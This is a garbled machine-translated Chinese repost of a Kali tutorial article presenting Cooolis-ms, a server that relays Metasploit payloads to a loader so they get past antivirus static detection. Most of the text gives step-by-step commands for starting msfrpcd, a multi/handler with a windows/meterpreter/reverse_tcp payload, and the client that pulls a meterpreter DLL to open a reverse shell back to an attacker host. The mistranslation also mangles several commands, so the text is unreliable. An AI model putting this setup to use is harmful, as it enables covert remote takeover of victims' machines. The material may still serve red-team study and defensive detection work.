




# Cooolis-MS:支持 Metasploit 框架 RPC 的服务器

> 原文：<https://kalilinuxtutorials.com/cooolis-ms/>

**Cooolis-ms** 是一个支持 Metasploit 框架 RPC 的服务器。它用于 Shellcode 和 PE loader 工作，在一定程度上绕过杀毒软件的静态检测，并允许 Cooolis-ms 服务器与 Metasploit 服务器分开执行。

加载程序执行过程:

*   连接到 cool is-服务器
*   cool is-服务器连接到 Metasploit RPC 服务器
*   检索有效负载并将其发送回加载器

**项目优势**

*   小容量(< 600KB)
*   支持所有 Metasploit 负载
*   简单参数
*   单行
*   支持分离

**如何安装？**

*   **选择 1 >码头工人调配(推荐)**

[**点击这里**](https://www.youtube.com/watch?v=StTqXEQ2l-Y&feature=youtu.be&t=35s) 观看 YouTube 演示。

**git 克隆 https://github . com/rvn 0 xsy/cooolis-ms . git
$ CD cooolis-ms/docker
$ docker-合成 up -d**

默认监听端口:8899

*   **选择二>源代码部署**

**$ git 克隆 https://github.com/Rvn0xsy/Cooolis-ms.git
$ CD COO olis-ms
$ pip 3 install-r requirements . txt
$ python 3 server . py-h**

**如何使用？**

**如果使用 Docker 进行部署，请直接从第三步开始。**

假设这是我的 VPS: 10.20.56.41

*   **第一步，启动 Metasploit RPC 服务器**
    *   **启动 Metasploit RPC 服务器:**

**$ msfrpcd-U MSF-P MSF-U/API/1.0/-a 127 . 0 . 0 . 1**

*   **第二步，启动 Cooolis-ms 服务器**

让它连接到 RPC 并监听发送有效负载的端口:

**$ python 3 server . py-U MSF-P MSF-H 127 . 0 . 0 . 1-P 55553-S-v-l 8899-S 10 . 20 . 56 . 41**

*   **第三步，配置 Metasploit 监听器**

**msf5 >使用 exploit/multi/handler
ms F5>设置有效载荷窗口/meter preter/reverse _ TCP
ms F5>设置 LHOST 10.20.56.41
msf5 >设置 LPORT 8876
ms F5>exploit-j**

*   **第四步，启动 Cooolis-ms 客户端**

**Cooolis-ms.exe-P windows/meter preter/reverse _ TCP-o LHOST = 10 . 20 . 56 . 41，LPORT=8876，Format=dll -H 10.20.56.41 -P**

**不是** e

*   Cooolis-ms.exe 的`-o`参数应该对应 msf 配置。
*   由于这个项目依赖于开源项目 [MemoryModule](https://github.com/fancycode/MemoryModule) ，所以只能支持 DLL 格式的 PAYLOAD。需要在-o 参数后面加上`Format=dll`。

[**Download**](https://github.com/Rvn0xsy/Cooolis-ms)